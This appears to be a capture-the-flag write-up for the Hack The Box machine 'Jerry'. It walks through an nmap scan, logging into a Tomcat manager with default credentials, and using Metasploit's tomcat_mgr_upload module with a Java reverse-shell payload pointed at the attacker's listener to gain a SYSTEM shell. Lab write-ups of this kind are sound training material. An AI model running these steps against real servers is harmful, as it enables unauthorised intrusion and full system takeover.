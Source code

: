 # Jerry

## Recon
After giving the machine a cursory scan with nmap `nmap -sV -sC -Pn 10.10.10.95`, we can see that only one port is returning as open:
```
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-server-header: Apache-Coyote/1.1
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/7.0.88
|_http-open-proxy: Proxy might be redirecting requests
```

I was unfamiliar with Tomcat, but after goolging it, I found that it's a java service used to store WAR files, the purpose of which is used to distribute JAR, JavaServer Pages,  Java Servlets, Java classes, XML files, tag libraries and static web pages. Immediately I realised that if I were able to upload to this service, I could easily establish a reverse shell. After looking at common exploits/default credentials for this service, I found out that the usernames: admin, roles admin and manager were default credentials, often with no password requirements and made a note of this.

After navigating to 10.10.10.95:8080 in my web browser, I was met with the splash page for the Tomcat service. I clicked around to see what I could find. The first page that I tried to access was "Host Manager", as I thought that if this was misconfigured, it would allow me an incredible foothold. Upon trying to access it though, I was unable to login via my web browser using any of the admin names I had noted down. However, when I cancelled my attempt to login, I was taken to a page that listed suggested default login credentials:

username: tomcat
password: s3cret

I didn't think this would be useful, but took note anyway. After my first failed login attempt I navigated to Manager App. Upon clicking on it, I was asked to log in again. I used the above suggested credentials and was able to access this dashboard.

--------------------------------------------------------------------------------------------------------------------------------------------------------

## Foothold/Remote Code Execution

I noticed that this page allowed for the uploading and execution of WAR files. For my first test, I uploaded a Java one liner to a directory I created for it, however after I deployed and attempted to run it, nothing happened. I tried again, this time with a .php one liner, again no luck.

What I did know though, was that I could upload files to this website without any restrctions.

I got back onto google again and researched Tomcat vulnerabilities with the amount of access I had, and came across a Metasploit plugin for this specifically.

I armed Metasploit with the following options:
```
use exploit/multi/http/tomcat_mgr_upload
set rhosts 10.10.10.95
set rport 8080
```

After setting my tool, rhost and rport I checked the payloads that I could use
```
show payloads
   #   Name                                     Disclosure Date  Rank    Check  Description
   -   ----                                     ---------------  ----    -----  -----------
   0   payload/generic/custom                                    normal  No     Custom Payload
   1   payload/generic/shell_bind_tcp                            normal  No     Generic Command Shell, Bind TCP Inline
   2   payload/generic/shell_reverse_tcp                         normal  No     Generic Command Shell, Reverse TCP Inline
   3   payload/generic/ssh/interact                              normal  No     Interact with Established SSH Connection
   4   payload/java/jsp_shell_bind_tcp                           normal  No     Java JSP Command Shell, Bind TCP Inline
   5   payload/java/jsp_shell_reverse_tcp                        normal  No     Java JSP Command Shell, Reverse TCP Inline
   6   payload/java/meterpreter/bind_tcp                         normal  No     Java Meterpreter, Java Bind TCP Stager
   7   payload/java/meterpreter/reverse_http                     normal  No     Java Meterpreter, Java Reverse HTTP Stager
   8   payload/java/meterpreter/reverse_https                    normal  No     Java Meterpreter, Java Reverse HTTPS Stager
   9   payload/java/meterpreter/reverse_tcp                      normal  No     Java Meterpreter, Java Reverse TCP Stager
   10  payload/java/shell/bind_tcp                               normal  No     Command Shell, Java Bind TCP Stager
   11  payload/java/shell/reverse_tcp                            normal  No     Command Shell, Java Reverse TCP Stager
   12  payload/java/shell_reverse_tcp                            normal  No     Java Command Shell, Reverse TCP Inline
   13  payload/multi/meterpreter/reverse_http                    normal  No     Architecture-Independent Meterpreter Stage, Reverse HTTP Stager
```

I feel relatively comfortable with Java reverse shells, and know that this service is based around Java, so I decided to go with the java reverse shell and to set a listening port.
```
set payload java/shell_reverse_tcp
set lhost 10.10.14.8
set lport 9998
```

After this, I just needed to plug in the login credentials that I found and to execute the payload.
```
msf6 exploit(multi/http/tomcat_mgr_upload) > set HttpPassword s3cret
HttpPassword => s3cret
msf6 exploit(multi/http/tomcat_mgr_upload) > set HttpUsername tomcat
run
```

After getting into Tomcat via Metasploit, I ran whoami to check my account
```
C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system
```

From here I just snooped around directories until I found both the user and root flag in the same directory `C:\Users\Administrator\Desktop\flags`
